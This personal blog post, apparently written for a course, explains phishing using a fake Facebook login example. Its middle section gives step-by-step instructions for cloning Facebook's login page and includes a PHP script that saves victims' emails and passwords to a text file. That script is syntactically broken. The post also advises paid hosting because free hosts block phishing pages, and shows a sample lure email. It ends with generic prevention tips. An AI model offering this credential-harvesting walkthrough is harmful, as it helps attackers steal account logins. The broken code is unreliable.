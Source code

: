 ```yaml
---
layout: post
comments: true
title: Don’t Get Hooked!
categories: Techie Tutorial
tags: Security phishing
---
```

![img](/blog/public/img/phishing0.jpg)

Hello Everyone,

I am back with one more interesting blog post, #6. So today, I want to discuss the topic called **PHISHING**. Sounds *fishy*, right? Surely, it is!

<p style="text-align:center;"><strong><span style="color:#ff0000;">WARNING : </span>This blog post is written only for educating people about what is phishing, how it works and how to prevent phishing scams. So, please don’t use these techniques for malicious purposes.</strong></p>

Phishing is the act of sending an email to a user falsely claiming to be an established legitimate enterprise in an attempt to scam the user into surrendering private information that will be used for identity theft.

The phishing email will typically direct the user to visit a website where they are asked to update personal information, such as a password, credit card, social security, or bank account numbers, that the legitimate organization already has. The website, however, is bogus and will capture and steal any information the user enters on the page, something like *website spoofing*.

![img](/blog/public/img/phishing1.png)

Okay, I will make it more clear by giving you an example. For suppose we take two friends, **Vinay** and **Venu**. *Venu* sends an email asking *Vinay* that to login into a link (which he provided in the mail itself), if he wants more likes or comments for his facebook post.

<p align="center">
  <img title="" src="/blog/public/img/phishing2.jpg" alt="" style="border: 1px solid">
</p>

*Vinay*, unaware of this phishing stuff, goes into the link and tries to login into the phishing site which looks like this..

![img](/blog/public/img/phishing3.jpg)

Poor guy, *Vinay*, got trapped into the trick played by *Venu*. When *Vinay* logs in, the username and the password goes to *Venu* and the rest is history. Now the trick played by *Venu* is that he made a phishing site resembling **facebook**, ( <span style="text-decoration:underline;"><em>direct hit:</em></span> observe the URL, it is <em>"www.facebook.com.infoknown.com"</em> instead of <em>"www.facebook.com" </em>) and lured *Vinay* using 'likes'. Tears roll out for *Vinay*!

<p align="center">
  <img title="" src="/blog/public/img/phishing4.jpg" alt="" style="border: 1px solid">
</p>

I just gave the example of a social networking site, but believe me, *programmers* like *Venu* :P can do it for the financial or other accounts also which may screw you up.


### How to create a Phishing page in minutes

It is very easy to create a phishing page. So I will explain how it is actually made. let us take the example of the known, *facebook*.
- Go to facebook.com, make sure you are not logged in to Facebook.
- Press Ctrl + U to view the source code.
- Copy the source code and paste it in a notepad.
- Find the action attribute of the login form in the code. Search for keyword `action` without quotes by pressing *Ctrl + F* in notepad. In the Facebook login page, action attribute was filled with Facebook login process URL, replace it with `process.php`
- You have to find the name of input fields using inspect element (Ctrl + Shift + I in Chrome), in our case, it is email.
- Save this file as index.html
- Now you have to get username and password stored in a text file named phishing.txt
- Create a file named Process.php using the following code.

**Process.php**

```php
<?php
if(isset($_POST['email']) && isset($_POST['pass']))
{
  $password=file_get_contents("phishing.txt");
  $phishing = fopen("phishing.txt","w");
  fwrite($phishing,$password."Email :".$_POST['email'], "Password :".$_POST['pass']);
  fclose($file);
  echo ;
}
else
  echo ;
?>
```

### How to host phishing page in a URL?

To put phishing page in a URL, you need to have two things.
	1. Domain
	2. Web Hosting

#### Get a Free Domain

You can create a free domain at [Bluehost](https://www.bluehost.com/) if you pay for their hosting plans. Once you create a domain, you need to get hosting and set up name servers for it. If you select Bluehost you don’t need to setup nameservers since it will already be set.

#### Get Web Hosting

Almost all free hosting panels would block phishing pages. So you need to get any paid shared hosting package, it would cost around $4 USD per month. I prefer Bluehost.

Once you setup domain and hosting, you can upload the files using FTP software. That’s all you can test it now.

### Phishing email

Now that the page is ready. The next step is to create a mail such that the fish (victim) should proceed to the phishing site. The weapon is the phishing email. Tell me who doesn't respond to a mail like this...

<p align="center">
  <img title="" src="/blog/public/img/phishing5.png" alt="" style="border: 1px solid">
</p>

Nobody wants to fall prey to a phishing scam. There’s a good reason that such scams will continue, though: They are successful enough for cybercriminals to make massive profits. Phishing scams have been around practically since the inception of the Internet, and they will not go away any time soon. Fortunately, there are ways to avoid becoming a victim yourself.

### Ways to Prevent Phishing

Here are 10 basic guidelines for keeping yourself safe:
- Keep Informed About Phishing Techniques
- Verify a Site's Security
- Install an Anti-Phishing Toolbar
- Think Before You Click!
- Check Your Online Accounts Regularly
- Keep Your Browser Up to Date
- Never Give Out Personal Information
- Be Wary of Pop-Ups
- Use Firewalls
- Use Antivirus Software

You don’t have to live in fear of phishing scams. By keeping the preceding tips in mind, you should be able to enjoy a worry-free online experience.

Actually, I chose this topic as an assignment for our course, Computer Essentials. Here is the powerpoint presentation I made [Phishermen ><>'](https://github.com/vchrombie/Blog-Codes/blob/master/Phishermen%20.pptx").

### My Conclusion

Nobody wants to fall prey to a phishing scam. There’s a good reason that such scams will continue, though: They are successful enough for cybercriminals to make massive profits. Remember there is no single fool-proof way to avoid phishing attacks. So, <em><strong>Don't Get Hooked!  ><> ><> ><>'
</strong></em>

For any questions, feel free to contact :)

Venu
